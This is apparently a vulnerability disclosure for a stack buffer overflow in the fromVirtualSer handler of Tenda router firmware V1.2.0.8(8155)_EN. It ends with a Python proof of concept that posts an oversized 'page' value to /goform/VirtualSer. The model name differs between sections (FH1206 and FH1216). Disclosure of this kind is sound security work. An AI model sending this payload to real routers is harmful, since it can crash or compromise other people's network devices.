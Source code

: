 # fromVirtualSer

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromVirtualSer** function. The function receives the `page` parameter from a POST request. `   sprintf(v5, "nat_virtualser.asp?page=%s", v3);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v5` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/2d880d75-b31c-44ef-afdd-3d0e9dcf2330)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/d9112a13-ae11-4ee5-9d4e-3c505053cf0a)
